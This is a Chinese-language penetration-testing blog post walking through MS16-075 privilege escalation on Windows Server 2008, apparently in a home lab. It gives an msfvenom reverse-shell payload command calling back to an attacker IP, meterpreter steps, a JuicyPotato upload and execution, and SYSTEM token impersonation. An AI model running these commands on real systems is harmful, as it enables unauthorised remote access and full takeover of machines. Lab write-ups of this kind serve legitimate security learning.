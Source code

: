 ```yaml
---
title: ms-16075提权Windows Server 2008
categories:
- 渗透测试
tags:
- 渗透测试
- 烂土豆
- 提权
- ms-16075
abbrlink: 29481
date: 2020-05-09 11:25:16
keywords:
description:
---
```


>光看网上的文章是不够的，还是要多动手才行


#### ms16-075漏洞简介
Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。
漏洞详情，[请戳这里](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2016/ms16-075)




#### 开始动手
1.假设是msfvenom生成木马，目标执行了，监听会话，获得meterpreter会话权限

```bash
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.0.103 lport=4444 -f exe > shell.exe
```

2.先看一下当前权限(确保我没有作弊)
![](https://image.geoer.cn/ms16075_download.png)

3.查看系统信息，并导出
```bash
# (进入cmd)
shell
chcp   65001     # 将编码格式改为utf-8中文
systeminfo >> c:\out.txt   将系统信息输出到out.txt文件
```

4.在meterpreter把结果文件下载到本地

```bash
download   D:\\xxxx\\upload\\out.txt   /tmp/out.txt    
```
![](https://image.geoer.cn/ms16075_download.png)



5.这里选择`Windows-Exploit-Suggeste`提权辅助工具，对结果文件在本地进行分析, 查找系统未打补丁有哪些
```
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -i out.txt -d 2020-05-09-mssb.xls -l  # -i是systeminfo的结果文件
```
![](https://image.geoer.cn/ms16075_poc.png)

可以看到可能存在ms16-075漏洞
![](https://image.geoer.cn/ms16075_in.png)


6.开始验证
```bash
# 上传ms16-075的exp: JuicyPotato.exe至靶机
upload /root/Desktop/JuicyPotato.exe  C:\\

execute -cH -f  C:\\JuicyPotato.exe    # 执行poc(前面已经把poc上传到目标了), 创建新的进程
impersonate_token "NT AUTHORITY\\SYSTEM"    # 窃取, 假冒目标主机上的可用令牌

```
![](https://image.geoer.cn/ms16075_in.png)

7.查看当前权限，提取成功
```bash
getuid                # 查看当前权限
```
![](https://image.geoer.cn/ms16075_ok.png)


8.后面的事情，嘿嘿你懂得



>这里只是没有防护的情况下的一次简单实验，有点简陋有点水



